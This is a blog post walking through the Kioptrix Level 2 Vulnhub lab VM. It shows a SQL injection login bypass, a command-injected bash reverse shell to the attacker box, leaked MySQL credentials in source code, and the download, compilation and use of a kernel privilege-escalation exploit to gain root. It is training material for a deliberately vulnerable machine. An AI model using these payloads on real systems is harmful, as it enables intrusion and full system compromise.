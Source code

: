 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 2"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp2/
tags: vulnhub
---
```


> “Never underestimate the determination of a kid who is time-rich and cash-poor.” -- Cory Doctorow, Little Brother

![][1]

You can download this VM at [](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/). Let's start pwning !

### 0x01 Reconnaissance

<details>
  <summary>
    get VM IP address
  </summary>
<pre>
<b>imd@kali:~$</b> sudo arp-scan 192.168.222.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.
192.168.222.128 00:0c:29:bb:86:18       VMware, Inc.
192.168.222.254 00:50:56:f1:d9:90       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.000 seconds (128.00 hosts/sec). 4 responded

</pre>
</details>

Target IP: 192.168.222.128

### 0x02 Scanning

<details>
  <summary>
    nmap full scan
  </summary>
<pre>
<b>imd@kali:~$</b> nmap -Pn -n -A -p- 192.168.222.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 10:08 EST
Nmap scan report for 192.168.222.128
Host is up (0.0096s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2020-12-16T13:00:04+00:00; -2h08m58s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
854/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)

Host script results:
|_clock-skew: -2h08m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

</pre>
</details>

Found 7 open ports: 22, 80, 111, 443, 631, 854, 3306. Server is running Apache httpd 2.0.52 on port 80/tcp, MySQL on port 3306/tcp, CUPS/1.1 on port 631/tcp. Port 80  is always an interesting port, let's check it on a web browser.

### Exploitation

![][2]

It's a web html/php based login form. Since we know there's a MySQL server running on the backend, I tried basic SQL injection methods to bypass the login, and `admin' or 1=1#` worked. The result of the SQL query looks like this: `SELECT * FROM users WHERE username='admin' or 1=1#' AND password=''` and the pound/sharp/hashtag whatever you call it made the next parameters commented out.

![][3]

As we can see here, there's a ping command prompt which might be vulnerable to a [Command Injection](https://www.owasp.org/index.php/Command_Injection). 

![][4]

We used the semicolon to run any shell command after the first command executed. If this is the case, we can run a reverse shell too. There are many available cheat sheets on the web and one of the most known website is pentestmonkey. for example, a bash reverse shell. I tried to inject another command `127.0.0.1 ; whoami` and found out it was indeed vulnerable to a command injection.

![][5]

I've explored a bit to see what other details I could extract, then I attempted to spawn a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) with a bash reverse shell command `; bash -i >& /dev/tcp/192.168.222.129/9001 0>&1` and before doing this, you will need to run netcat first to listen to incoming connections on our machine. `nc -lvp 9001`

<details>
  <summary>low-priv shell access</summary>
<pre>
<b>imd@kali:~$</b> nc -lvp 9001
listening on [any] 9001 ...
192.168.222.128: inverse host lookup failed: Unknown host
connect to [192.168.222.129] from (UNKNOWN) [192.168.222.128] 32771
bash: no job control in this shell
<b>bash-3.00$</b> whoami   
apache
<b>bash-3.00$</b> uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
<b>bash-3.00$</b> ls
index.php
pingit.php
<b>bash-3.00$</b> lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$ ls
index.php
pingit.php
<b>bash-3.00$</b> cat index.php
</pre>
</details>

Interesting. let's see what's inside the source code of index.php

<details>
  <summary>index.php source code</summary>
{% highlight php %}
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
<html>
<body>
<?php
if ($row['id']==""){
?>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>
<?php
	} //END of login form
?>

<!-- Start of HTML when logged in as Administator -->
<?php
	if ($row['id']==1){
?>
	<form name="ping" action="pingit.php" method="post" target="_blank">
		<table width='600' border='1'>
		<tr valign='middle'>
			<td colspan='2' align='center'>
			<b>Welcome to the Basic Administrative Web Console<br></b>
			</td>
		</tr>
		<tr valign='middle'>
			<td align='center'>
				Ping a Machine on the Network:
			</td>
				<td align='center'>
				<input type="text" name="ip" size="30">
				<input type="submit" value="submit" name="submit">
			</td>
			</td>
		</tr>
	</table>
	</form>


<?php
}
?>
</body>
</html>
{% endhighlight %}
</details>

We immediately saw credentials on the source code. and we'll see if we can access MySQL.

<details>
  <summary>MySQL login attempt</summary>

<pre>
<b>bash-3.00$</b> mysql -u john -p
Enter password: hiroshima
ls
ls
ls
^C
</pre>
</details>

Nothing shows up. What could be the problem? the system is not allowing us to connect. It means that the password we're using is possibly already an old password. That's why it is not giving us a shell output. At least we tried. Let's move on and look for something else.

<details>
  <summary>sudo and suid permissions</summary>
<pre>
<b>bash-3.00$</b> sudo -l
Password:

<b>bash-3.00$</b> 
<b>bash-3.00$</b> find / -perm -u=s -type f 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su

</pre>
</details>

Looking at the files with suid bit, we don't know which one is vulnerable and which one is not. In that case, we need to check out the priv esc suid on [gtfobins](https://gtfobins.github.io/). If something is here, that means it is vulnerable. We found none after checking all the files.

<details>
  <summary>crontabs</summary>
<pre>
bash-3.00$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

\# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly

bash-3.00$ crontab -l
no crontab for apache

</pre>
</details>

How bout crontabs? Yep, we found none. There is no scheduled crontab for apache user. So what's next? We know we got a shell but with a low privilege. We found out this is an apache shell. We know this is running CentOS. So how about we try to find a kernel exploit to linux 2.6.9.EL. A quick google search of "<mark>linux 2.6.9-55.EL centos exploit</mark>" leads us to this first link: https://www.exploit-db.com/exploits/9542 or searching from searchsploit command on your machine.

<details>
  <summary>transfer and download exploit</summary>
<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit centos 4.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Co | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS  | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfute | linux/local/35370.c
------------------------------------------------- ---------------------------------
Shellcodes: No Results

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix2/9542.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.222.128 - - [23/Dec/2020 13:19:10] "GET /9542.c HTTP/1.0" 200 -

<b>bash-3.00$</b> cd /tmp
<b>bash-3.00$</b> wget http://192.168.222.129/9542.c
--11:24:27--  http://192.168.222.129/9542.c
           => `9542.c'
Connecting to 192.168.222.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

  0K ..                                                    100%    5.04 MB/s

11:24:27 (5.04 MB/s) - `9542.c' saved [2643/2643]

</pre>
</details>

In order to download the exploit from attacker box, we need to host the exploit and we did this using python2. Download the exploit from the victim's machine in /tmp directory.

### Gaining root access

<details>
  <summary>compile and gain root access</summary>
<pre>
<b>bash-3.00$</b> ls
9542.c
<b>bash-3.00$</b> gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
<b>bash-3.00$</b> ls
9542.c
exploit
<b>bash-3.00$</b> ./exploit
sh: no job control in this shell
<b>sh-3.00#</b> whoami
root
<b>sh-3.00#</b> id
uid=0(root) gid=0(root) groups=48(apache)
<b>sh-3.00#</b> hostname
kioptrix.level2

</pre>
</details>

We used gcc to compile the c file, named the compiled file 'exploit' and ran it and now we are root! Congratulations..K1optr1x 2 -- rooted!



[1]: https://i.imgur.com/lBO1ezp.png
[2]: https://i.imgur.com/JWKV9N4.png
[3]: https://i.imgur.com/Vl7waEv.png
[4]: https://i.imgur.com/lrVIqAN.png
[5]: https://i.imgur.com/XokJzFd.png


